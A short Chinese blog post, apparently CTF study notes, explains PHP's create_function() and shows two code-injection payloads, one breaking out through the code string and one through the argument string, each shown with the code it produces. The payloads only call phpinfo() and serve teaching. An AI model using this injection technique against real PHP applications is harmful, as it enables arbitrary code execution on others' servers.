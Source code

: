 ```yaml
---
layout: post
title: create_function的用法
categories: [web,php]
---
```

## create_function(`$arg`,`$code`)函数  
>$args 声明的函数变量部分  
>$code 执行的方法代码部分  
现在构造一个
```php
	$func=create_function($args,'echo "xxxxx".$args');
	$func("hello");
```
create_function() 会创造一个匿名函数 (lambda样式) 
实际上等价于  
```php
	function lambda($args){
       echo "xxxxx".$args;
    }
```
而此时由于参数的传入，这里就存在漏洞  
---
## 第一种是对于code的注入  
>payload: ?args=1;}phpinfo();/*  
此时代码变为  
```php
	function lambda($args){
       echo "xxxxx".1;
    }
    phpinfo();/*;
    }
```
---
## 第二种是对于args的注入
>payload: ?args=){phpinfo();}/*  
此时代码变为
```php
	function lambda($args){
		phpinfo();
	}
	/*){
       echo "xxxxx".$args;
    }
```

## 关于php_ini的题
[点这查看](https://blog.csdn.net/weixin_73562787/article/details/132285273)